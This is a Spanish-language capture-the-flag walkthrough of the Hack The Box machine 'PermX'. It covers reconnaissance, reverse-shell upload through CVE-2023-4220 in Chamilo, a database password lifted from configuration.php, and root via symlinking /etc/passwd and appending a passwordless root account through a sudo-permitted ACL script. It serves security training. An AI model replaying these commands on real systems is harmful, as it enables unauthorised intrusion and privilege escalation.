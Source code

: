 # Reconocimiento
sudo nmap -sS -sV -A --min-rate 5000 --open -vvv -Pn 10.10.11.23

# Resultado

| port | state | service | reason | version |
|------|-------|---------|--------|---------|
| 22 | open | ssh |  syn-ack | OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0) |
| 80 | open | http |  syn-ack | Apache httpd 2.4.52 |

- Copiamos la ip en la url de nuestro navegador.
- revisamos la web cargada.
- encontramos la url (http://permx.htb/).

# Copiamos la url en el archivo
- cd nano /etc/hosts
- ip 10.10.11.23 http://permx.htb/
- guardamos con ctrl + s
- ctrl + x

# Realizamos un escaneo con
> whatweb -v -a 3 http://permx.htb/ 

# Encontramos

| Resultado |
|-----------|
| Summary   : Apache[2.4.52], |
|  Bootstrap[5.0.0] |
| Email[permx@htb.com] |
| HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)] |
| JQuery[3.4.1] |

# Ataque de directorio con Gobuster

| ataque | estado |
|--------|--------|
| sudo gobuster vhost -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://permx.htb --append-domain | grep -v "Status: 302" | exitoso |

| resultado |
|-----------|
| lms.permx.htb |

# Reconocimiento de la nueva url encontrada con whatweb

|Ataque|
|------|
| whatweb -v -a 3 http://lms.permx.htb/index.php |


|resultados|
|----------|
| Apache |
| Version      : 2.4.52 (from HTTP Server Header) Google Dorks: (3)  
| Website     : http://httpd.apache.org/ |

# CVE

- CVE-2023-4220

- Investigamos en internet la revershell que podriamos usar con este CVE
- Descargamos la shell
- La enviamos al servidor 

> curl -F 'bigUploadFile=@sheel.php' 'http://lms.permx.htb//main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported' 

- Nos colocamos en escucha

| nc |
|----|
| sudo nc -lvnp 9001 |

- Ejecutamos la Revershell

> curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/sheel.php'

- Ingresamos al servidor y importamos una libreria de python para obtener una bash

| importamos bash |
|-----------------|
| python3 -c 'import pty;pty.spawn("/bin/bash")' |


- Buscamos la existencia de otros usuarios

> cat /etc/passwd | grep -i sh$

|resultados|
|----------|
| root:x:0:0:root:/root:/bin/bash|
|mtz:x:1000:1000:mtz:/home/mtz:/bin/bash |

- Realizamos una busqueda por ficheros

> find ./ | grep “configuration.php” 2>dev/null 


- Dentro de la busqueda encontramos la siguiente linea 


> cat ./var/www/chamilo/app/config/configuration.php 


- Esto nos da resultados de la configuracion de la base de datos
- 
> Database connection settings.
> $_configuration['db_host'] = 'localhost';
> $_configuration['db_port'] = '3306';
> $_configuration['main_database'] = 'chamilo';
> $_configuration['db_user'] = 'chamilo';
> $_configuration['db_password'] = '03F6lY3uXAP2bkW8';
> Enable access to database management for platform admins.
> $_configuration['db_manager_enabled'] = false;

- Nos conectamos por ssh con ese usuario de la db

| ruta | passwd |
| ssh mtz@permx.htb   | 03F6lY3uXAP2bkW8 |


> flag 1 encontrada dentro de user.txt

# Proceso de escalada de privilegios

- Ejecutamos  

> sudo -l 

- Para saber que permisos tenemos para ejecutar como este usuario
- Vemos un script llamado


> acl.sh 

- Este esript nos permite modificar los permisos dentro del path de /home/mtz

- con el comando
> ln -s /etc/passwd /home/mtz/test 
- creamos un link entre 
 > /etc/passwd 
-  y 
 > /home/mtz/test 
- lo que nos va a permitir tener una comunicacion directa con passwd a traves de 
> /home/mtz/test 

para que tengamos los permisos tenemos que ejecutar el siguiente comando

> sudo /opt/acl.sh mtz rw /home/mtz/test 

- este comando lo que hace es que a traves de 

> sudo /opt/acl.sh  

- le asigna a 

>  mtz 

- los permisos de escritura y lectura
 
> rw 

- al archivo que asignamos con el link  

> /home/mtz/test 

- anterior para poder tener acceso y con 

> echo "root3::0:0:root3:/root:/bin/bash" >> ./test
 
- creamos un root llamado root3 y les damos los mismos permisos de root ya con esto solo ejecutamos 

> su root3 

- y tendremos los privilegios de root 

-realizamos un cd..
-luego cd ..
-luego cd root
-y encontramos la flag dentro de root.txt

